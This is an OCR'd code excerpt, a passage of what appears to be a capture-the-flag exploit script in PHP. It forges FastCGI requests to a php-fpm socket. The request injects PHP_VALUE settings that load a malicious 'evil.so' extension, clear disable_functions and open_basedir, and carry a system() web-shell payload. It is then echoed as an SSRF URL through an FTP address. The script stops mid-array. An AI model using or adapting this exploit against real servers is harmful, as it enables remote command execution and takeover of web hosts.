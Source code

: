 ```php
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; // php payload -- Doesnt do anything
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = evil.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = "; // extension_dir即为.so文件所在目录
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => 'ctfking/Tajang',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001', // 找准服务端口
```